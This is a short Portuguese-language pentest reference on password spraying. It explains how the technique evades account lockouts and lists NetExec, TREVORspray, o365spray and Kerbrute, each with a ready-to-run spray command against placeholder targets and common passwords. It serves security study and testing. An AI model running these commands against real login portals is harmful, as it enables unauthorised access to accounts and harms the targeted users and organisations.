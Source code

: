 # Password Spray

Ao contrário do brute force tradicional, em que é testado diversas senhas em um curto período de tempo, no password spray o atacante inverte este lógica, em vez de testar milhares de senhas contra uma única conta, testa menos senhas e rotacionando os usuários testados a cada vez, assim evitando bloqueios automáticos e gerando menos ruído de log do que o brute force tradicional.

Comumente utilizado em portais de login, como da Microsoft 365, VPN, Webmail.

É caracterizado no MITRE ATT\&CK como uma subcategoria do Brute Force: [T1110.003](https://attack.mitre.org/techniques/T1110/003/)



### Ferramentas

As ferramentas comumente utilizadas são:

> [**NetExec**](https://github.com/Pennyw0rth/NetExec)

Utilizada principalmente para realização de password spray em SMB, porém com suporte para outros tipos de protocolos.

```
nxc smb (host) -u /usuarios.txt -p /senhas.txt --no-bruteforce --continue-on-success
```



> [**TREVORspray**](https://github.com/blacklanternsecurity/TREVORspray)

Possui diversos módulos para spray, como para Office 365, Active Directory Federation Services, Outlook Web App, Okta SSO, Cisco VPN.

```
trevorspray -u emails.txt -p 'Senha123' --url https://alvo.com.br
```



> [**0365spray**](https://github.com/0xZDH/o365spray)

Ferramenta específica para enumeração e password spray em Office 365.

```
o365spray --spray -U usuarios.txt -P senhas.txt --count 2 --lockout 5 --domain alvo.com.br
```



> [**Kerbrute**](https://github.com/ropnop/kerbrute)

Ferramenta focada no protocolo Kerberos.

```
./kerbrute_linux_amd64 passwordspray -d dominio.com [--dc (IP)] usuarios.txt Senha123
```

